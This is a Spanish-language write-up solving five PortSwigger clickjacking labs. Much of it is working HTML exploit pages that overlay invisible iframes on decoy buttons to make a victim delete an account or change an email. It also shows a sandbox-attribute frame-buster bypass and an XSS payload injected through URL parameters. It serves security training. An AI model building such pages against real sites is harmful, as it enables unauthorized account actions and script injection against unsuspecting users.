# Clickjacking - PortSwigger

Todos los laboratorios posteriormente expuestos los puedes encontrar para resolverlos en el siguiente link.

[https://portswigger.net/web-security/clickjacking](https://portswigger.net/web-security/clickjacking)

## Índice

- [1. Lab: Basic clickjacking with CSRF token protection](#1-lab-basic-clickjacking-with-csrf-token-protection)
- [2. Lab: Clickjacking with form input data prefilled from a URL parameter](#2-lab-clickjacking-with-form-input-data-prefilled-from-a-url-parameter)
- [3. Lab: Clickjacking with a frame buster script](#3-lab-clickjacking-with-a-frame-buster-script)
- [4. Lab: Exploiting clickjacking vulnerability to trigger DOM-based XSS](#4-lab-exploiting-clickjacking-vulnerability-to-trigger-dom-based-xss)
- [5. Lab: Multistep clickjacking](#5-lab-multistep-clickjacking)
- [CONCLUSION](#conclusion)

## 1. Lab: Basic clickjacking with CSRF token protection

```
Este laboratorio contiene la funcionalidad de inicio de sesión y un botón de eliminación de cuenta que está protegido por un token CSRF . Un usuario hará clic en los elementos que muestran la palabra "click" en un sitio web de señuelo.

Para resolver el laboratorio, cree algo de HTML que enmarque la página de la cuenta y engañe al usuario para que elimine su cuenta. El laboratorio se resuelve cuando se elimina la cuenta.

Puede iniciar sesión en su propia cuenta con las siguientes credenciales:

wiener:peter
```

El laboratorio nos otorga un código en html para realizar clickjacking y lo que haremos sera editarlo hasta llegar a la solución.

```html
<head>
	<style>
		#target_website {
			position:relative;
			width:128px;
			height:128px;
			opacity:0.00001;
			z-index:2;
			}
		#decoy_website {
			position:absolute;
			width:300px;
			height:400px;
			z-index:1;
			}
	</style>
</head>
...
<body>
	<div id="decoy_website">
	...decoy web content here...
	</div>
	<iframe id="target_website" src="https://vulnerable-website.com">
	</iframe>
</body>
```

Entonces, accedemos al exploit server para configurar nuestro payload.



Entonces, editamos el código html anterior para realizar un iframe de la pagina objetivo.

```html
<html>
	<head>
		<style>
			#target{
				position:relative;
				width:1280px;
				height:600px;
				opacity:0.5;
				z-index:2;
			}

			#decoy_website{
				position:absolute;
				width:1280px;
				height:600px;
				z-index:1;
			}
		</style>
	</head>
	<body>
		<div id="decoy_website">
		texto de prueba
		</div>

		<iframe id='target' src='https://0a1900c403c8ce398779ae83009a00b5.web-security-academy.net/my-account' >
	</body>
</html>
```
Como podemos ver cambiamos el valor de la opacidad a 0.5 para poder ver el iframe de la pagina objetivo y nuestra web. Luego hacemos clic en **View Exploit**.



Como podemos ver, nos encontramos con un iframe, que contiene el sitio web objetivo donde debemos engañar al usuario para que elimine su cuenta. Gracias a que iniciamos sesión anteriormente en el sitio web, el iframe funciona como una mini ventana de navegador cargando el panel del usuario con las cookies de sesión.

Ahora, intentaremos centrar el texto de prueba en la misma posición del botón **Delete account**. Para ello podemos usar el css o html simple, en este caso usaremos html simple siendo **\<br>** como salto de linea y **&nbsp** como desplazamiento a la derecha.

```html
<html>
	<head>
		<style>
			#target{
				position:relative;
				width:1280px;
				height:600px;
				opacity:0.5;
				z-index:2;
			}

			#decoy_website{
				position:absolute;
				width:1280px;
				height:600px;
				z-index:1;
			}
		</style>
	</head>
	<body>
		<div id="decoy_website">
		<br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br>&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp texto de prueba
		</div>

		<iframe id='target' src='https://0a1900c403c8ce398779ae83009a00b5.web-security-academy.net/my-account' >
	</body>
</html>
```

Obteniendo el siguiente resultado:



Como podemos ver, tenemos el texto de prueba situado en el lugar del botón **Delete account**, entonces reemplazaremos este texto por un botón que diga **click** como nos solicita el laboratorio.

```html
<html>
	<head>
		<style>
			#target{
				position:relative;
				width:1280px;
				height:600px;
				opacity:0.5;
				z-index:2;
			}

			#decoy_website{
				position:absolute;
				width:1280px;
				height:600px;
				z-index:1;
			}
		</style>
	</head>
	<body>
		<div id="decoy_website">
		<br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br>&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp<button class="button" type="submit">click</button>
		</div>

		<iframe id='target' src='https://0a1900c403c8ce398779ae83009a00b5.web-security-academy.net/my-account' >
	</body>
</html>
```

Obteniendo el siguiente resultado:



Ahora, volveremos a asignar el valor de **opacity** en **0.000001**.

```html
<html>
	<head>
		<style>
			#target{
				position:relative;
				width:1280px;
				height:600px;
				opacity:0.000001;
				z-index:2;
			}

			#decoy_website{
				position:absolute;
				width:1280px;
				height:600px;
				z-index:1;
			}
		</style>
	</head>
	<body>
		<div id="decoy_website">
		<br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br>&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp<button class="button" type="submit">click</button>
		</div>

		<iframe id='target' src='https://0a1900c403c8ce398779ae83009a00b5.web-security-academy.net/my-account' >
	</body>
</html>
```

Obteniendo el siguiente resultado:



Ahora que tenemos el código html completo, se lo enviamos a la victima para resolver el laboratorio.

```html
<html>
	<head>
		<style>
			#target{
				position:relative;
				width:1280px;
				height:600px;
				opacity:1;
				opacity:0.000001;
				z-index:2;
			}

			#decoy_website{
				position:absolute;
				width:1280px;
				height:600px;
				z-index:1;
			}
		</style>
	</head>
	<body>
		<div id="decoy_website">
		<br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br>&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp<button class="button" type="submit">click</button>
		</div>

		<iframe id='target' src='https://0a37001a04cfe2cfc118c7fd0090008c.web-security-academy.net/my-account' >
	</body>
</html>
```


Como podemos ver, luego de enviar el exploit a la victima, el laboratorio cambia a resuelto.

## 2. Lab: Clickjacking with form input data prefilled from a URL parameter

```
Este laboratorio amplía el ejemplo básico de clickjacking en Lab: Clickjacking básico con protección de token CSRF . El objetivo del laboratorio es cambiar la dirección de correo electrónico del usuario rellenando previamente un formulario con un parámetro de URL e incitando al usuario a hacer clic sin darse cuenta en el botón "Update email".

Para resolver el laboratorio, cree algo de HTML que enmarque la página de la cuenta y engañe al usuario para que actualice su dirección de correo electrónico haciendo clic en un señuelo "Click me". El laboratorio se resuelve cuando se cambia la dirección de correo electrónico.

Puede iniciar sesión en su propia cuenta con las siguientes credenciales:wiener:peter
```

Como dice la descripción este laboratorio es complementario del anterior. Pero en este caso debemos cambiar el correo de la victima. Entonces para ello ingresamos al panel de usuario del sitio web.



Ahora, como podemos ver, podemos realizar un código en html para que el usuario haga clic en el botón **Update mail**. El problema es, que esto no va a cambiar el correo del usuario ya que se ha ingresado un valor en el input. Entonces analizando el codigo verificamos lo siguiente:

```html
<form class="login-form" name="change-email-form" action="/my-account/change-email" method="POST">
	<label>Email</label>
	<input required type="email" name="email" value="">
	<input required type="hidden" name="csrf" value="tBoz7XDXRle1T0umVHq9VH4CPkqbZRtu">
	<button class='button' type='submit'> Update email </button>
</form>
```

Como podemos ver el input donde debemos ingresar el email tiene por nombre **email**, entonces hay que tener cuenta que muchos sitios webs terminar recibiendo parámetros de completado de valores mediante url o parámetros post. Entonces probaremos enviando el parámetro **email** por get, con el valor de un correo por ejemplo **desdes@desdes.xyz**.



Como podemos ver, el correo que pasemos por parámetro get se actualiza en el sitio web dejándonos la posibilidad de realizar un clickjacking como en el anterior laboratorio. 

```html
<html>
	<head>
		<style>
			#target{
				position:relative;
				width:1280px;
				height:600px;
				opacity:1;
				opacity:0.5;
				z-index:2;
			}

			#decoy_website{
				position:absolute;
				width:1280px;
				height:600px;
				z-index:1;
			}
		</style>
	</head>
	<body>
		<div id="decoy_website">
		<br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br>&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp<button class="button" type="submit">Click me</button>
		</div>

		<iframe id='target' src='https://0a5700ab0478052f804967000000005e.web-security-academy.net/my-account?email=desdes@desdes.xyz' >
	</body>
</html>
```


Podemos ver que tenemos el boton de **Click me** en la posicion del boton **Update email** asi como el correo que vamos a actualizar. Ahora, volveremos a asignar el valor de **opacity** en **0.000001**, lo enviamos a la victima para completar el laboratorio.



## 3. Lab: Clickjacking with a frame buster script

```
Este lab está protegido por un destructor de marcos que evita que el sitio web sea enmarcado. ¿Puede sortear el destructor de marcos y realizar un ataque de secuestro de clics que cambie la dirección de correo electrónico de los usuarios?

Para resolver el laboratorio, cree algo de HTML que enmarque la página de la cuenta y engañe al usuario para que cambie su dirección de correo electrónico haciendo clic en "Click me". El laboratorio se resuelve cuando se cambia la dirección de correo electrónico.

Puede iniciar sesión en su propia cuenta con las siguientes credenciales:wiener:peter
```

Como podemos leer en la descripción del laboratorio, este sitio web cuenta con una protección contra iframe. Probaremos insertando un iframe en nuestro exploit server para validar la existencia de esta protección.



Como podemos ver, la protección esta presente en el sitio web, lo que hace que el navegador no pueda cargar el iframe, para evadir esta restricción podemos usar el atributo **sandbox** para la etiqueta **iframe** con el valor **allow-forms**.

```html
<iframe src='https://0a1800c70426ede280ee499500930086.web-security-academy.net/my-account' sandbox='allow-forms'>
```


Entonces, podemos verificar que logramos evadir la protección. Ahora que ya superamos esta limitante realizamos el cambio de cambio de correo como en el laboratorio anterior.

```html
<html>
	<head>
		<style>
			#target{
				position:relative;
				width:1280px;
				height:600px;
				opacity:1;
				opacity:0.5;
				z-index:2;
			}

			#decoy_website{
				position:absolute;
				width:1280px;
				height:600px;
				z-index:1;
			}
		</style>
	</head>
	<body>
		<div id="decoy_website">
		<br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br>&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp<button class="button" type="submit">Click me</button>
		</div>

		<iframe id='target' src='https://0a1800c70426ede280ee499500930086.web-security-academy.net/my-account?email=desdes@desdes.xyz' sandbox='allow-forms'>
	</body>
</html>
```



Ahora, volveremos a asignar el valor de **opacity** en **0.000001**, lo enviamos a la victima para completar el laboratorio.



## 4. Lab: Exploiting clickjacking vulnerability to trigger DOM-based XSS

```
Este laboratorio contiene una vulnerabilidad XSS que se activa con un clic. Cree un ataque de secuestro de clics que engañe al usuario para que haga clic en el botón "Click me" para llamar a la print() función.
```

Como podemos ver en el sitio web objetivo, requerimos buscar una vulnerabilidad XSS, entonces revisando encontramos un formulario e intentaremos enviar etiquetas para verificar si es vulnerable.


Y podemos ver que genera el siguiente mensaje:

```
Thank you for submitting feedback, Name!
```

Entonces, podemos ver que nos devuelve el valor del nombre ingresado, por ello intentaremos ingresar el payload XSS:

```

```

Entonces lo enviamos y verificamos que se ejecuta la función de imprimir.



Ahora que ya encontramos la vulnerabilidad XSS, debemos buscar la manera de lanzar la explotación mediante un ataque de clickjacking, para ello recordaremos lo que hicimos en el segundo laboratorio. Buscamos el código del formulario.

```html
<form id="feedbackForm" action="/feedback/submit" method="POST" enctype="application/x-www-form-urlencoded" personal="true">
	<input required type="hidden" name="csrf" value="l6K1q1Kyw3a9lKl4kbLVhxmo5HKoBSnL">
	<label>Name:</label>
	<input required type="text" name="name">
	<label>Email:</label>
	<input required type="email" name="email">
	<label>Subject:</label>
	<input required type="text" name="subject">
	<label>Message:</label>
	<textarea required rows="12" cols="300" name="message"></textarea>
	<button class="button" type="submit">
		Submit feedback
	</button>
	<span id="feedbackResult"></span>
</form>
```

Entonces, agregaremos mediante la url los parámetros del formulario para autorellenar el formulario.



Entonces, en lugar del nombre pondremos el payload XSS, de manera que cuando el usuario entre a nuestro exploit server y haga clic en el botón se envíe el formulario y ejecute el XSS.

```
https://0a2d00e104125f6f80effd6c00d200a5.web-security-academy.net/feedback?name=%3Cimg%20src=x%20onerror=print()%3E&email=desdes@desdes.xyz&subject=blah&message=blah
```

Entonces, lo agregamos en nuestro codigo de clickjacking.

```html
<html>
	<head>
		<style>
			#target{
				position:relative;
				width:1280px;
				height:1280px;
				opacity:1;
				opacity:0.5;
				z-index:2;
			}

			#decoy_website{
				position:absolute;
				width:1280px;
				height:600px;
				z-index:1;
			}
		</style>
	</head>
	<body>
		<div id="decoy_website">
		<br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br>&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp<button class="button" type="submit">Click me</button>
		</div>

		<iframe id='target' src='https://0a2d00e104125f6f80effd6c00d200a5.web-security-academy.net/feedback?name=%3Cimg%20src=x%20onerror=print()%3E&email=desdes@desdes.xyz&subject=blah&message=blah' >
	</body>
</html>
```



Ahora, volveremos a asignar el valor de **opacity** en **0.000001**, lo enviamos a la victima para completar el laboratorio.




## 5. Lab: Multistep clickjacking

```
Este laboratorio tiene algunas funciones de cuenta que están protegidas por un token CSRF y también tiene un cuadro de diálogo de confirmación para proteger contra el secuestro de clics . Para resolver este laboratorio, construya un ataque que engañe al usuario para que haga clic en el botón Eliminar cuenta y en el cuadro de diálogo de confirmación haciendo clic en las acciones de señuelo "Click me first" y "Click me next". Necesitará usar dos elementos para este laboratorio.

Puede iniciar sesión en la cuenta usted mismo utilizando las siguientes credenciales:wiener:peter
```

Para completar esta laboratorio debemos hacer que el usuario elimine su cuenta, y para ello requiere también de una confirmación. Primero empezaremos con el primera boton, con la finalidad de que se ubique en el botón de **Delete Account**.

```html
<html>
	<head>
		<style>
			#target{
				position:relative;
				width:1280px;
				height:1280px;
				opacity:1;
				opacity:0.5;
				z-index:2;
			}

			#decoy_website{
				position:absolute;
				width:1280px;
				height:600px;
				z-index:1;
			}
		</style>
	</head>
	<body>
		<div id="decoy_website">
		<br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br>&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp<button class="button" type="submit">Click me first</button>
		</div>

		<iframe id='target' src='https://0a6400c804b2385b80626867000d00f3.web-security-academy.net/my-account'>
	</body>
</html>
```



Ahora, haremos clic en **Delete Account** y notamos que nos genera una confirmación de que deseamos eliminar la cuenta.



Entonces, requerimos crear un segundo botón y una nueva clase para este mismo, que concuerde con la posición del botón de confirmación de tal manera que con ello la cuenta pueda ser borrada definitivamente.

```html
<html>
	<head>
		<style>
			#target{
				position:relative;
				width:1280px;
				height:1280px;
				opacity:1;
				opacity:0.5;
				z-index:2;
			}

			#decoy_website{
				position:absolute;
				width:1280px;
				height:600px;
				z-index:1;
			}

			#decoy_website2{
				position:absolute;
				width:1280px;
				height:600px;
				z-index:1;
			}
		</style>
	</head>
	<body>
		<div id="decoy_website">
		<br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br>&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp<button class="button" type="submit">Click me first</button>
		</div>

		<div id="decoy_website2">
		<br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br>&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp&nbsp<button class="button" type="submit">Click me next</button>
		</div>

		<iframe id='target' src='https://0a6400c804b2385b80626867000d00f3.web-security-academy.net/my-account'>
	</body>
</html>
```



Ahora, volveremos a asignar el valor de **opacity** en **0.000001**, lo enviamos a la victima para completar el laboratorio.



## CONCLUSION

Muchas veces vemos el clickjacking como una vulnerabilidad muy simple o sin importancia por el poco impacto que puede presentar, pero en resolviendo estos laboratorio me di con la sorpresa que hay casos mas complejos en los cuales se podría utilizar esta vulnerabilidad dependiendo de que tan segura pueda ser un sitio web, asi mismo en los dos últimos laboratorios se dio a entender que esta vulnerabilidad puede ser combinada con mas vulnerabilidades para aumentar su impacto, y que con un buen manejo de CSS y Javascript se podría realizar "exploits" mas complejos de clickjacking para sitios web que tengan procesos de muchas etapas.

Por ello se recomienda encarecidamente el uso de cabeceras de seguridad para proteger los sitios webs de este tipo de vulnerabilidades. Actualmente muchos servicios ya proporcionan una configuración sencilla para la habilitación de cabeceras de seguridad.